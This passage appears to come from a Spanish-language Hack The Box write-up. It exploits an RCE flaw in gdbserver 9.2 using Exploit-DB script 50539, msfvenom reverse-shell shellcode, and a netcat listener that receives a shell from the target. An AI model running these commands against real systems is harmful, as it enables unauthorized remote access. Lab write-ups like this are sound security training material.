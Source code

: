 Se descargó el exploit, el cual aprovecha una vulnerabilidad de ejecución remota de comandos (RCE) en **gdbserver 9.2**. Al ejecutarlo, el script indica los pasos necesarios para su utilización.
```bash
❯ searchsploit -m linux/remote/50539.py
  Exploit: GNU gdbserver 9.2 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50539
     Path: /usr/share/exploitdb/exploits/linux/remote/50539.py
    Codes: N/A
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/alex/HTB/backdoor/exploits/50539.py

❯ python3 50539.py

Usage: python3 50539.py <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 50539.py 10.10.10.200:1337 rev.bin
```

Se generó el **shellcode** necesario para obtener una shell inversa utilizando `msfvenom`.
```bash
❯ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=443 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
```

Con el archivo `rev.bin` ya generado, se procedió a ejecutar el exploit `50539.py` dirigido al servicio `gdbserver`.
```bash
❯ python3 50539.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
```

En paralelo, se mantenía un listener en el equipo atacante a la espera de la conexión inversa.
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.125] 44748
whoami
user
```
